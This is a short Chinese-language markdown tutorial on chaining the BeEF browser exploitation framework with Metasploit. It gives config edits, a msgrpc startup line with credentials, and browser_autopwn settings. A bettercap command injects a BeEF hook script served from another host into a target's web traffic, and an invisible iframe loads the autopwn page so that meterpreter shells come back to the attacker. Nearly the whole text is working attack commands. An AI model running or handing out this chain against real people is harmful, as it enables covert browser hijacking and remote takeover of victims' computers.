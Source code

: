 # Beef && Metasploit
---

### 修改config.yaml

编辑

`beef/config.yaml`

`metasploit:
            enable: false改为true`

编辑

`beef/extensions/demos/config.yaml`

`enable:true改为false`

编辑

`beef/extensions/metasploit/config.yaml`

`设置
    ssl: true
    ssl_version: 'TLSv1'`

### 启动msf服务

```
msfconsole
load msgrpc ServerHost=127.0.0.1 User=msf Pass=abc123 SSL=y
```

### 运行Beef

### 反弹回 meterpreter

```
use auxiliary/server/browser_autopwn
show options
set LHOST 192.168.16.245
set SRVHOST 192.168.16.245
set SRVPORT 8881
run -z
```

`bettercap -T 192.168.0.102 --proxy-module injectjs --js-url "http://192.168.0.100:3000/hook.js"`

生成一个链接

beef使用`Commands`-`Misc`-`Create Invisible Iframe`模块加载MSF生成的`autopwn`页面

等待弹回shell

`sessions -l`